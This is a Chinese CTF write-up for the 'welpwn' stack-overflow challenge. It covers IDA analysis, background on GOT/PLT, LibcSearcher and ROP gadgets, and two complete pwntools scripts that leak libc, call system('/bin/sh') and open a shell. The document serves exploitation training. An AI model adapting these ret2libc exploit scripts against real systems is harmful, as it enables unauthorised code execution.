 





### welpwn实战操作

这题我认为最大的思考点在于栈的进出、截断以及调试问题。这道题可以很好的进一步熟悉调试操作，以及对泄露libc的过程更熟悉的操作。



#### 程序分析

#### ida现场分析

```
int __fastcall echo(__int64 a1)
{
  char s2[16]; // [rsp+10h] [rbp-10h]

  for ( i = 0; *(_BYTE *)(i + a1); ++i )  #产生截断的地方
    s2[i] = *(_BYTE *)(i + a1);
  s2[i] = 0;
  if ( !strcmp("ROIS", s2) )
  {
    printf("RCTF{Welcome}", s2);
    puts(" is not flag");
  }
  return printf("%s", s2);
}
```

正常的程序执行截断不会存在问题，

除了正常的截断符，程序会在返回地址上被截断，程序正常。但是如果我们想通过栈溢出来控制程序执行rop，那么就需要将考虑到截断符号问题。





#### 补充知识：



1、GOT表；

GOT（Global Offset Table）表中每一项都是本运行模块要引用的一个全局变量或函数的地址。可以用GOT表来间接引用全局变量、函数，也可以把GOT表的首地址作为一个基 准，用相对于该基准的偏移量来引用静态变量、静态函数。由于加载器不会把运行模块加载到固定地址，在不同进程的地址空间中，各运行模块的绝对地址、相对位 置都不同。**这种不同反映到GOT表上，就是每个进程的每个运行模块都有独立的GOT表，所以进程间不能共享GOT表。**

**但是这里存在一个问题，因为printf是在共享库里面的，而共享库在加载的时候是没有固定地址的，所以你不知道它的地址是1000还是2000？怎么办呢？**

于是引入了下面的表plt



2、PLT表；

PLT（Procedure Linkage Table）表每一项都是一小段代码，对应于本运行模块要引用的一个全局函数



3、字节序

p64、p32、u32、u64

用于保证合理的字节型来确定shellcode的正常运行

context.log_level  = 'debug'开启调试信息



4、LibcSeaercher

自导libc库用于寻找我们的libc库/(不同环境的libc使用不同，不排除需要加入爆破操作的可能)

libc = LibcSearcher('write',write_addr)

libc.dump('system')

libc.dump('str_bin_sh')



5、Ropgadget

ROP->返回导向编程

gadget->小程序，小家伙

构造正确的gadget是写出exp的最重要一部，通常ropgadet的难易程序和对于程序突破口的选择是否正确相关。如果没对口，或许也能解出，但是难度会不一样。(。。不排除非预期秒题。。QAQ)

ropgadget可以简单理解成一段汇编的代码，而且通常是存在于程序当中的，我们通过对这些可以相互衔接的汇编代码进行剪切拼接来控制寄存器或者对函数进行调用，从而实现我们的pwn的目的。

https://github.com/JonathanSalwan/ROPgadget



6、函数调用

怎么调用的？原理？



7、地址泄露

栈题中常用的

1. 格式化字符串漏洞泄露
2. 运行流劫持，使用writr、put等函数读出



以上，你已经具备了做题所有的知识！已经可以轻松面对60%的栈的pwn题了~

我们来对程序进行分析调试：



#### 运行和调试操作



#### exp

```
#coding:utf8  
from pwn import *
from LibcSearcher import *

context.log_level  = 'debug'
sh = process('./w')
#sh = remote('111.198.29.45',51867)  
elf = ELF('./w')
write_got = elf.got['write']
puts_plt = elf.plt['puts']
#此处有4条pop指令，用于跳过24字节  
pop_24 = 0x40089C
#pop rdi的地址,用来传参，具体看x64的传参方式  
pop_rdi = 0x4008A3

sh.recvuntil('Welcome to RCTF\n')

main_addr = 0x4007CD
#本题的溢出点在echo函数里,然而，当遇到0，就停止了数据的复制，因此我们需要pop_24来跳过24个字节  
payload = 'a'*0x18 + p64(pop_24) + p64(pop_rdi) + p64(write_got) + p64(puts_plt) + p64(main_addr)

sh.send(payload)

sh.recvuntil('\x40')
#泄露write地址  
write_addr = u64(sh.recv(6).ljust(8,'\x00'))

libc = LibcSearcher('write',write_addr)
#获取libc加载地址  
libc_base = write_addr - libc.dump('write')
#获取system地址  
system_addr = libc_base + libc.dump('system')
#获取/bin/sh地址  
binsh_addr = libc_base + libc.dump('str_bin_sh')

sh.recvuntil('\n')
payload = 'a'*0x18 + p64(pop_24) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

sh.send(payload)
sh.interactive()

```



```
#!/usr/bin/env python
#-*- coding:utf8 -*-
from LibcSearcher import *
from pwn import *

context.log_level = 'debug'
num=16
p=process("./w")
e=ELF("./w")
put=e.symbols["puts"]
write=e.got["write"]
bss=0x601070
pop_rdi=0x00000000004008a3
pppp_ret=0x000000000040089c
ppppp_ret=0x00000000040089a
mov_rdx_rsi_edi=0x0000000000400880
main=e.symbols["main"]
write_plt=e.symbols["write"]
payload='a'*24+p64(pppp_ret)+p64(ppppp_ret)+p64(0)+p64(1)+p64(write)+p64(0x8)+p64(write)+p64(0x1)+p64(mov_rdx_rsi_edi)+'a'*56+p64(main)
pause()
p.recv()
p.sendline(payload)
libc_write=u64(p.recv()[:8])
print(((libc_write)))
libc=LibcSearcher("write",libc_write)
libc_writes=libc.dump("write")
base=libc_write-libc_writes

libc_system=libc.dump("system")
libc_bin=libc.dump("str_bin_sh")+base

print hex(libc_system)
print hex(base)
libc_system=libc_system+base
payload='a'*24+p64(pppp_ret)+p64(pop_rdi)+p64(libc_bin)+p64(libc_system)+p64(main)
p.sendline(payload)
p.interactive()

```

